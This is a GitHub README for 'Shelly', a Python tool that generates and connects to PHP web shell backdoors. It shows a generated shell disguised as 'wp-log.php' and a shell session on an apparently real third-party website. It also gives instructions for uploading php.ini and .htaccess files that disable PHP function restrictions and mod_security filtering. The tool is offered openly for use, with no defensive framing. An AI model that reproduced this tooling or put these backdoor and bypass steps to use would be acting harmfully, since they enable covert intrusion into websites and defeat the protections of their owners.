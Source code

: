 
## Shelly | Simple Backdoor Manager with Python (based on weevely)

![Screenshoot](capture/capture-2.png)
<br>
Shelly is a simple tool that is written using Python, which functions to remote a website
<br>
### Instalation :

$ git clone https://github.com/tegal1337/Shelly <br>
$ cd Shelly <br>
$ python3 shell.py <br>

### Requirements :

<pre>
sudo pip install -r requirements.txt
</pre>

### Example :
<pre>

python3 shell.py -g wp-log -p tegal1337
   ______      ____
  / __/ / ___ / / __ __
 _\ \/ _ / -_/ / / // /
/___/_//_\__/_/_/\_, /
                /___/  v.1
--------------------------
Python shell - Tegal1337 |
Generate :
[+] ./backdoor.py -g "nama_shell" -p "password"
Connect Server :
[+] ./backdoor.py -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password tegal1337

dalpan@Tegal1337:~/Tools$ python3 shell.py -u "https://www.pamz3d.com/wp-log.php" -p tegal1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>
![Screenshoot](capture/capture.png)
![Screenshoot](capture/capture-3.png)

### Disable Function Bypass :
<ul>
   <li>look for the folder whose permissions 777 (rwx rwx rwx)</li>
   <li>Upload file php.ini </li>
</ul>
<pre>
safe_mode = OFF
disable_functions = NONE
</pre>
<ul>
   <li>And upload file .htaccess</li>
 </ul>
<pre>
<IfModule mod_security.c>
SecFilterEngine Off
SecFilterScanPOST Off
</IfModule>
</pre>


### Artikel :
<ul>
   <li>https://tegalsec.org/meremote-sebuah-website-menggunakan-backdoor-python/</li>
</ul>

### Contact :
<ul>
  <li> Email : van@tegalsec.org</li>
</ul>

### Support our organization by giving donations

[![Foo](https://www.paypalobjects.com/en_US/i/btn/btn_donate_LG.gif)](https://paypal.me/dalpan)
